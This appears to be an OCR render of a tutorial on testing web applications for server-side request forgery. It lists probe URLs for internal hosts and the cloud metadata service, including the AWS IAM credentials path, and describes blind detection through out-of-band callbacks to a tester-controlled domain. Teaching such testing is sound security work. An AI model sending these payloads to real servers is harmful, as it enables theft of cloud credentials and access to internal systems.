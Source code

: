 ### 🔍 Example:

```http
GET /fetch?url=https://example.com/image.jpg
```

If the server fetches this URL and returns the content, it’s a candidate for SSRF.

---

### 2️⃣ **Test External URLs**

Start with a benign external URL to confirm the server is making the request:

```http
https://yourdomain.com/fetch?url=https://google.com
```

If you get Google’s content back, the server is fetching it — SSRF is likely.

---

### 3️⃣ **Probe Internal Resources**

Try accessing internal IPs or services:

```http
http://127.0.0.1/
http://localhost/
http://169.254.169.254/  ← AWS metadata
http://10.0.0.1/
```

If the server responds with internal data, you’ve confirmed SSRF.

---

### 4️⃣ **Blind SSRF Techniques**

If you don’t get a response, use **out-of-band (OOB)** methods:

* Send requests to a domain you control (e.g., `http://ssrf.yourdomain.com`)
* Monitor DNS or HTTP logs to confirm the server made the request

Tools:

* [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator)
* [Interactsh](https://github.com/projectdiscovery/interactsh)

---

### 5️⃣ **Target Cloud Metadata Services**

If the server is in AWS, GCP, or Azure, SSRF can expose credentials:

#### AWS:

```http
http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

